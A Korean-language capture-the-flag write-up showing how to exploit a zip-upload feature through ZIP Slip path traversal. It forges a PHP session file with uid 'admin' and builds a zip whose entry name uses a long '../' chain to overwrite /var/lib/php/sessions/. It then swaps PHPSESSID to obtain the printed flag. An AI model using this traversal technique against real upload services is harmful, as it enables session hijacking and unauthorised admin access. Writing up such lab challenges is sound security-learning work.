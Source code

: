 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-03-18-50.png)

# **Write-Up**

zip파일을 업로드하면 압축해제하여 각 파일들을 {현재 경로}/upload/파일 이름+{8자리 숫자}에 복사한다.

이 때, ZIP Slip 취약점이 터질 경우 세션을 덮어쓸 수 있을거라고 판단된다.

먼저, apache + php 서버를 구축하고, 세션을 저장하자.

```php
<?php
// index.php
        session_start();
        $_SESSION['uid'] = "admin";
?>
```

Apache/2.4.29, PHP 7.2.24 기준 세션 경로는 /var/lib/php/sessions/이다.

위에 만들었던 페이지에 접속하면 다음과 같이 세션이 생성된다.

```shell
root@ubuntu:~# cd /var/lib/php/sessions/
root@ubuntu:~# cat sess_9lf514ib6bqm85sgln42g3g73r
uid|s:5:"admin";
```

문제에서 8자리 랜덤 숫자를 추가하기 때문에 8자리를 잘라 주자.

```shell
mv sess_9lf514ib6bqm85sgln42g3g73r sess_9lf514ib6bqm85sgln
```

ZIP Slip 공격을 하기 위해 경로를 입력하여 압축하자.

```shell
zip ./2honrr.zip ../../../../../../../../../../var/lib/php/sessions/sess_9lf514ib6bqm85sgln
```

이 파일을 업로드하여 파일명과 실패 여부를 확인하자.

![](images/2022-01-03-03-19-31.png)

업로드가 되었다면 PHPSESSID값을 바꾸자.

![](images/2022-01-03-03-19-35.png)

재 접속을 하면 FLAG를 획득할 수 있다.

![](images/2022-01-03-03-19-42.png)

세션 정보가 바뀌었으니 로그아웃됐을 것이다. 세션을 삭제 후 재로그인 후 FLAG를 인증하여 점수를 획득하자.

![](images/2022-01-03-03-19-48.png)


# **FLAG**

**FLAG{my_zip_is_sliping_beauty}**